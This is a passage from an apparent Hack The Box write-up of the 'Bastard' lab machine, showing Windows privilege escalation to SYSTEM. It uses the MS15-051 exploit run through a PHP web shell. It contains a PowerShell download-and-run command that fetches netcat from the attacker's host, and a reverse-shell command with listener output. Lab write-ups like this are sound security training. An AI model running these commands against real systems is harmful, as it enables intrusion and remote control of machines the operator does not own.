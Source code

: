 ```bash
wget https://github.com/rootphantomer/exp/raw/master/ms15-051%EF%BC%88%E4%BF%AE%E6%94%B9%E7%89%88%EF%BC%89/ms15-051/ms15-051/x64/ms15-051.exe
```

This exploit should escalate my local shell on the box to SYSTEM. I run it with a `whoami` test:

`http://10.10.10.9/bastard.php?fupload=ms15-051.exe&fexec=ms15-051%20whoami`

![rce root shell escalated][rce root]

Success!

Now I want to open up a reverse shell. I download the `nc64.exe` 64-bit netcat Windows executable located at <https://github.com/phackt/pentest/tree/master/privesc/windows> and upload it to the server with:

`http://10.10.10.9/bastard.php?fexec=echo (new-object System.Net.WebClient).Downloadfile('http://10.10.14.19:8000/nc.exe', 'nc.exe') | powershell -noprofile - `

The space after the `-` is important to keep in the exploit.

To be honest I forgot about `fupload` so I made things more complicated than I needed it to be.

However, from here I can open up a reverse shell with:

`http://10.10.10.9/bastard.php?fupload=ms15-051.exe&fexec=ms15-051%20%22nc64.exe%20-e%20cmd.exe%2010.10.14.19%204443%22`:

```bash
sudo nc -lvnp 4443

listening on [any] 4443 ...
connect to [10.10.14.19] from (UNKNOWN) [10.10.10.9] 49176
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\inetpub\drupal-7.54>whoami
whoami
nt authority\system
```

And proceed to collect my flags.

[hackthebox]: https://www.hackthebox.eu
[ippsec]: https://twitter.com/ippsec
[ippsec video]: https://www.youtube.com/watch?v=lP-E5vmZNC0&t=1
[ms15-051]: https://www.exploit-db.com/exploits/37049

[drupal web search]: /assets/img/htb/bastard/drupal-vulns.png
[rce dir]: /assets/img/htb/bastard/rce-dir.png
[rce root]: /assets/img/htb/bastard/rce-root-shell.png
[rce systeminfo]: /assets/img/htb/bastard/rce-systeminfo.png
